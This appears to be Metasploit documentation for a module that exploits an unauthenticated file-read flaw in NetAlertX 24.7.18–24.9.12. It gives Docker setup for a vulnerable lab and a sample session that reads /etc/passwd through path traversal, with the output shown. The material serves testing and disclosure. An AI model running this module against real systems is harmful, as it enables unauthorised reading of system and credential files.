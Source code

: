 ## Description


An attacker can read any file through log functionality with no authentication.

The vulnerability affects:

    * v24.7.18 <= NetAlertX <= v24.9.12

## Installation

1. `docker pull jokobsk/netalertx:24.9.12`

2. docker run
```bash
docker run --rm --network=host \
  -v /tmp/netalertx:/app/config \
  -v /tmp/netalertx:/app/db \
  -e TZ=Europe/Berlin \
  -e PORT=20211 \
  jokobsk/netalertx:24.9.12
```

## Steps

1. Install the application
2. Start msfconsole
3. Do: `use auxiliary/scanner/http/netalertx_file_read`
4. Do: `run rhost=<rhost>`
5. You should get the contents of the specified file.


## Example

```
msf6 > use auxiliary/scanner/http/netalertx_file_read 
msf6 auxiliary(scanner/http/netalertx_file_read) > show options

Module options (auxiliary/scanner/http/netalertx_file_read):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   DEPTH     5                yes       Traversal Depth (to reach the root folder)
   FILEPATH  /etc/passwd      yes       The path to the file to read
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.h
                                        tml
   RPORT     20211            yes       The target port (TCP)
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   THREADS   1                yes       The number of concurrent threads (max one per host)
   VHOST                      no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(scanner/http/netalertx_file_read) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 auxiliary(scanner/http/netalertx_file_read) > run
[*] Received data:
[*] root:x:0:0:root:/root:/bin/sh
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
catchlog:x:100:101:catchlog:/:/sbin/nologin
nginx:x:101:102:nginx:/var/lib/nginx:/sbin/nologin

[*] Stored results in netalert_result.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/netalertx_file_read) > 


```


